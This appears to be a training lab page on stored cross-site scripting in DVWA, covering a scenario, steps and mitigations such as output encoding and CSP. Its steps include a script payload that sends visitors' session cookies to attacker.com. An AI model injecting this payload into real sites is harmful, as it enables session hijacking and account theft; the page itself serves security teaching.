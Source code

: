 ## 🔍 Lab 4: XSS – Session Hijacking in Internal Dashboard

### 💼 Scenario

A developer chat tool renders user input without output encoding. Stored XSS impacts all logged-in users.
### 🎯 Objective

Inject malicious JavaScript to hijack sessions or redirect users.
### 🧪 Steps

1. Access DVWA → XSS (Stored)
2. Submit message:

```html
<script>document.location='http://attacker.com?c='+document.cookie</script>
```

3. Visit page as another user → auto-redirect

### 🧠 Real-World Context

XSS is commonly exploited in chat tools, comments, and admin panels. It enables phishing, malware drops, and impersonation.

### 🛡️ Mitigation

- Use output encoding (e.g., OWASP Java Encoder).
- Apply Content Security Policy (CSP).
- Escape input on output.